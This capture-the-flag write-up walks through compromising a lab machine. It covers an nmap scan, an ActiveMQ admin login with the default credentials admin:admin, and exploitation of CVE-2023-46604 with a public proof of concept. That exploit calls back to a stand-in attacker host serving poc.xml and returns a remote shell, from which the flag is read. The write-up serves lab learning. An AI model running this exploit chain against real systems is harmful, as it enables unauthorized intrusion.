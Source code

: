 # Prime Time (user)
<p align="center">
    <img src="img/prime_time_user_chall.png" alt="Challenge" width="500"/>
</p>

We are given the IP of a machine, and start with a nmap scan to identify which ports are open.
```
$ nmap -T 5 -p- 10.128.2.125 -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-03 00:16 CET
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.4 (protocol 2.0)
1883/tcp  open  mqtt
5672/tcp  open  amqp?
8161/tcp  open  http       Jetty 9.2.22.v20170606
39959/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
61614/tcp open  http       Jetty 9.2.22.v20170606
61616/tcp open  apachemq   ActiveMQ OpenWire transport
```

Port 8161 leads to an `ActiveMQ` website, which has links to `/admin` and `/demo`. The demo-endpoint gives a 404, while the admin-endpoint prompts us for login credentials.
<p align="center">
    <img src="img/prime_time_activemq.png" alt="ActiveMQ-website" width="500"/>
</p>

The default credentials for ActiveMQ is `admin:admin`, and we can login as admin, however other than revealing that the ActiveMQ version is `5.15.3` this path does not lead to anything.
<p align="center">
    <img src="img/prime_time_activemq_admin.png" alt="ActiveMQ-admin" width="500"/>
</p>

This version of ActiveMQ has a deserialization vulnerability, [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/cve-2023-46604), which gives attackers remote code execution.
We can use [this POC](https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell) to exploit the vulnerability and get shell on the server.

```
$ python3 exploit.py -i 10.128.2.125 -si <attacker_ip>
#################################################################################
#  CVE-2023-46604 - Apache ActiveMQ - Remote Code Execution - Pseudo Shell      #
#  Exploit by Ducksec, Original POC by X1r0z, Python POC by evkl1d              #
#################################################################################

[*] Target: 10.128.2.125:61616
[*] Serving XML at: http://<attacker_ip>:8080/poc.xml
[!] This is a semi-interactive pseudo-shell, you cannot cd, but you can ls-lah / for example.
[*] Type 'exit' to quit

#################################################################################
# Not yet connected, send a command to test connection to host.                 #
# Prompt will change to Apache ActiveMQ$ once at least one response is received #
# Please note this is a one-off connection check, re-run the script if you      #
# want to re-check the connection.                                              #
#################################################################################

[Target not responding!]$ id
uid=998(prime) gid=995(prime) groups=995(prime),0(root) context=system_u:system_r:unconfined_service_t:s0
```

We get shell as the user `prime`, which can read the flag from `/home/activemq/user.txt`.
```
Apache ActiveMQ$ cat /home/activemq/user.txt
EPT{d41d8cd98f00b204e9800998ecf8427e}
```
